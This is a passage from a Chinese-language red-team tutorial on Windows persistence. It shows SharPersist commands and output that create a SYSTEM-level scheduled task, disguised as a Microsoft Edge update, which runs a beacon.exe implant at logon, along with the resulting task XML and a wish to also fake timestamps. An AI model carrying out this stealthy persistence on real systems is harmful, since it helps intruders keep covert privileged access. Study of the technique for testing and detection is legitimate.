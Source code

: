 重新登录后是以当前用户高完整性级别运行 Beacon。

![任务计划伪装结果运行展示.png](assets/1698895515-b590872b656b8096c253a78a85a8abd3.png)

#### 2.1.3 自动化创建任务

[SharPersist](https://github.com/mandiant/SharPersist/tree/master) 使用 SYSTEM 权限，自动化创建 MicrosoftEdgeUpdateTaskMachineRelease 任务，触发器选择 logon 登录触发，执行命令 C:\\Users\\123\\Desktop\\beacon.exe。

```plaintext
PS C:\Users\123\desktop> .\SharPersist.exe -t schtask -m add -o logon -n MicrosoftEdgeUpdateTaskMachineRelease -c C:\Users\123\Desktop\beacon.exe

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Scheduled Task Name: MicrosoftEdgeUpdateTaskMachineRelease
[*] INFO: Option: logon


[+] SUCCESS: Scheduled task added
```

可以看到以 `<UserId>` SYSTEM 权限运行命令，存在创建时间 `<Date>` 2023/04/27 10:05:36，注释和任务名一样。并没想象中好用，如果可以把创建时间和注释选项加上就更好了。

```xml
PS C:\Users\123\desktop> SCHTASKS /Query /TN MicrosoftEdgeUpdateTaskMachineRelease /XML
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2023-04-27T10:05:36.646+08:00</Date>
    <Description>MicrosoftEdgeUpdateTaskMachineRelease</Description>
    <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
  </Settings>
  <Triggers>
    <LogonTrigger />
  </Triggers>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
```